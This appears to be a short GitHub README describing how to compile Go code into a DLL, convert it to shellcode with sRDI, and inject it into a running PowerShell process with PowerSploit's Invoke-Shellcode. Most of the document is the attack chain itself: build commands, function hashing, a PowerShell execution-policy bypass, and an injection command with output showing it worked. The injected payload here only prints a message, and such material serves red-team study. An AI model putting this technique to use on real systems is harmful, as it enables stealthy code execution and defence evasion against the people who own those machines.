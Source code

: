# DLL shelccode from GO

Generate two files, an archive file called `dllshellcode.a` and an associated header file called `dllshellcode.h`.

```sh
$ go build -buildmode=c-archive
```

Build a DLL from the C code.

```sh
$ gcc -shared -pthread -o x.dll scratch.c dllshellcode.a -lWinMM -lntdll -lWS2_32
```

To convert our DLL into shellcode, we’ll use [sRDI](https://github.com/monoxgas/sRDI/), an excellent utility that has a ton of functionality. From the sRDI directory, execute a python3 shell. Use the following code to generate a hash of the exported function:

```python
> from ShellCodeRDI import *; HashFunctionName('Start')
1168596138
```

The sRDI tools will use the hash to identify a function from the shellcode we’ll generate later.

Next, we’ll leverage PowerShell utilities to generate and execute shellcode. For convenience, we will use some utilities from [PowerSploit](https://github.com/PowerShellMafia/PowerSploit/).

```powershell
c:\tools\PowerSploit\CodeExecution> powershell.exe -exec bypass
PS C:\tools\PowerSploit\CodeExecution> Import-Module .\Invoke-Shellcode.ps1
PS C:\tools\PowerSploit\CodeExecution> cd ..\..\sRDI
PS C:\tools\sRDI> cd .\PowerShell\
PS C:\tools\sRDI\PowerShell> Import-Module .\ConvertTo-Shellcode.ps1
```

With both modules imported, we can use `ConvertTo-Shellcode` from sRDI to generate shellcode from the DLL, and then pass this into `Invoke-Shellcode` from PowerSploit to demonstrate the injection. Once this executes, you should observe your Go code executing:

```powershell
PS C:\tools\sRDI\PowerShell> Invoke-Shellcode -Shellcode (ConvertTo-Shellcode -File C:\Users\tom\Downloads\x.dll -FunctionHash 1168596138)

Injecting shellcode into the running PowerShell process!
Do you wish to carry out your evil plans?
[Y] Yes [N] No [S] Suspend [?] Help (default is "Y"): Y
YO FROM GO
```
